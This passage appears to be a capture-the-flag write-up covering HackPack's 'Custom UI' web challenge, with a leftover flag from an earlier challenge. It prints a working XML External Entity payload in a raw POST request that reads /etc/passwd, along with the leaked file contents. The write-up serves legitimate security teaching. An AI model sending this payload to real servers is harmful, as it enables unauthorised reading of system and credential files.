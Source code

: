     <p>Just to show our appreciation for your morbid commitment to our life-altering products, we're giving you this flag:</p>
    <code>flag{0h_my_@ch1ng_p@ncre@5_th33$3_@r3_d3l1c10$0}</code>


## Custom UI

> How often do you visit the website just to bounce back because of bad design? Now we developed a new feature, which gives you the ability to change the design! Check out a new feature: https://custom-ui.cha.hackpack.club/

![page](/media/2020.04/hackpack_custom_ui.png)

We can input data to change the button color and add text to it. If we input
`<script>` we trigger an error:

    :::text
    Warning: DOMDocument::loadXML(): Opening and ending tag mismatch: script line 1 and value in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: DOMDocument::loadXML(): Opening and ending tag mismatch: value line 1 and button in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: DOMDocument::loadXML(): Premature end of data in tag button line 1 in Entity, line: 1 in /var/www/html/index.php on line 12
    Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 13

Therefore we will go for a [XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection).

    :::text
    POST /? HTTP/1.1
    Host: custom-ui.cha.hackpack.club
    Content-Type: application/x-www-form-urlencoded
    Cookie: debug=false
    Content-Length: 198

    xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxez1rnx%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxez1rnx%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e

    <SNIP>
    <body>
      <div style="max-width:600px; margin:auto">
        <h1>Your custom button!</h1>
              <button style="background-color: root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/bin/false
    ; padding: 15px 32px;">
    <SNIP>
